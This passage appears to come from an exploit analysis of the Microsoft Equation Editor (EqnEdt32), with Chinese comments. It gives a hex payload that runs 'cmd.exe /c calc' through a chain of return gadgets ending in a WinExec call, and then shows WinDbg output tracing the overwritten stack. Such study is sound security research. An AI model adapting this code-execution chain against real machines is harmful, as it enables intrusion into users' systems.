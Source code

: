 ```
63 6d 64 2e 65 78 65 20 // 第一次拷贝的8个字节

2f 63 63 61 6c 63 00 44 44 44 44 44

19 00 00 00 // ebp

3a c7 44 00 // ret_addr: add esp, 4; ret

28 5b 45 00 // a read_write addr

b6 0e 41 00 // add eax, ebp; ret 2

b6 0e 41 00 // add eax, ebp; ret 2

00 00       // pad for adjust stack by 2 bytes

4b ed 40 00 // push eax; call sub_30C00(which call WinExec)

00 00       // pad for align by 4 bytes

00 00 00 00 // 保证执行流顺利到达ret(我这里加了4个00，加1个即可)
```

```
0:000&gt; bp 443e34



0:000&gt; g

...

Sat Jan 13 21:14:17.616 2018 (GMT+8): Breakpoint 0 hit

eax=00454f30 ebx=00000006 ecx=0012f4ac edx=00000002 esi=0012f7e4 edi=0012f5e0

eip=00443e34 esp=0012f480 ebp=0012f4b4 iopl=0         nv up ei ng nz ac pe cy

cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000297

EqnEdt32!MFEnumFunc+0x15637:

00443e34 55              push    ebp

...



0:000&gt; g

Sat Jan 13 21:14:30.970 2018 (GMT+8): Breakpoint 1 hit

eax=002615f2 ebx=00000006 ecx=7747a24c edx=00000002 esi=0012f7e4 edi=0012f5e0

eip=00443efc esp=0012f480 ebp=00000019 iopl=0         nv up ei pl nz ac po nc

cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000212

EqnEdt32!MFEnumFunc+0x156ff:

00443efc c3              ret

0:000&gt; t

```